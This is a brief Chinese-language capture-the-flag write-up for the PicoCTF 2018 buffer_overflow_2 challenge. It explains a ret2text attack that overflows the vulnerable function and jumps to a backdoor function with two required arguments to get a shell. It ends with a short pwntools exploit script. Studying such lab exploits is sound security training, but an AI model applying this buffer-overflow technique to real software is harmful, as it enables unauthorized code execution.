


- `ret2text`
- `32`位程序函数参数劫持

1. `vuln`函数中存在溢出
2. 存在后门函数
3. 构造`payload`跳转到后门函数得到`shell`

这里要注意,跳转到后门函数的同时要传入两个参数`a1 & a2`,缺失参数会导致`eof`错误

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_2')
padding = b'A'*(0x6c+4)
payload = padding+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
io.sendlineafter(b'Please enter your string:',payload)
io.interactive()
```

